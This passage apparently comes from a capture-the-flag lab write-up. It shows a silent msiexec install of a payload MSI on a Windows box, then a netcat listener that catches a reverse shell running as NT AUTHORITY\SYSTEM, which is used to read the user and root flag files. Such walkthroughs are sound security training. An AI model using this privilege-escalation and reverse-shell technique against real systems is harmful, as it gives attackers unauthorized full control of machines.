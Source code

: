 ```c
              15 Dir(s)   4,014,354,432 bytes free

C:\Users\Phoebe>msiexec /quiet /qn /i a.msi      
msiexec /quiet /qn /i a.msi
```

On our ```netcat``` listener,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~]
└─$ nc -nlvp 6767
listening on [any] 6767 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.239] 53474
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system

C:\Users\Phoebe\Desktop>more user.txt
more user.txt
<---USER FLAG--->

C:\Users\Administrator\Desktop>more root.txt
more root.txt
<---ROOT FLAG--->
```
